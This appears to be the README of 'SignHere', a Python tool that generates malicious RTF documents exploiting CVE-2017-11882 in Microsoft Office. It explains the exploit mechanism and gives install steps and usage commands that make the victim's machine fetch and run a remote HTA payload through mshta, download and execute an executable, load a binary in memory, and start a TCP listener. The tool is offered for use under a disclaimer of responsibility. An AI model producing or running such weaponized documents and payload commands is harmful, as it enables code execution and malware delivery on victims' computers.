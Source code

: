 ## SignHere
<b>Introduction</b>

<b>CVE-2017-11882</b> - The unique vulnerability identifier of Microsoft Office 2007 Service Pack 3, Microsoft Office 2010 Service Pack 2, Microsoft Office 2013 Service Pack 1, and Microsoft Office 2016 allows an attacker to run code in the context of the current user without properly handling objects in memory, the so-called "Microsoft Office Memory corruption vulnerability".
The implementation includes creating a program for building malicious rtf documents and payloads in VBScript

<b>The principle of operation</b>
It is rtf documents that are vulnerable for the reason that they can be "programmed" by knowing special commands-RTF Headers. Thus, a binary (executable) object is created in the body of the document, in fact, it is a Microsoft Equation formula with the code that contains the cmd command. Then you can generate the payload in VBScript and use the command " mshta link to the payload file” to execute the hta file.

<br>

# Attention!
Author and contributors <b>are not responsible</b> for any damage caused to you or by you.

## Installation
The program requires [Python 3](https://www.python.org) for executing.
--
<b>Linux</b>
--
You can use <b>Termux</b>, but execution of program requires <b>root</b>

```sh
git clone https://github.com/Retr0-code/SignHere/
cd SignHere/
chmod +x SignHere.py
./SignHere.py --help
```
<br>

<b>Windows</b>
--
First, you need to download the [archive](https://github.com/Retr0-code/SignHere/archive/main.zip). Then unpack it and open a PowerShell window in this folder and write:
```sh
.\SignHere.py --help
```

## Usage

```python
./SignHere.py --cmd "mshta http://192.168.1.74/pay.hta" --powershell "start iexplore.exe https://github.com/Retr0-code/SignHere" --ip 192.168.1.74 --output generated.rtf
```

<b>--cmd</b>
Argument with Windows command that will be executed after opening document.

<b>--powershell</b>
Argument with powershell command that will be in VBScript payload.

<b>--ip</b>
Argument with ip address that will be used for web-server. (default: 127.0.0.1)

<b>--output</b>
Name and path of document.

<br>

```python
./SignHere.py --cmd "mshta http://192.168.1.74/pay.hta" --temp exploit.exe --ip 192.168.1.74 --output generated.rtf
```

<b>--temp</b>
Argument that will use binary file as payload (binary file will start in RAM memory).

<br>

```python
./SignHere.py --cmd "mshta http://192.168.1.74/pay.hta" --payload exploit.exe --ip 192.168.1.74 --listener-host 192.168.1.74 --output generated.rtf
```

<b>--payload</b>
Argument that will download file on computer of victim and execute it.

<b>--listener-host</b>
Argument for starting TCP listener on curret ip (default: 127.0.0.1)
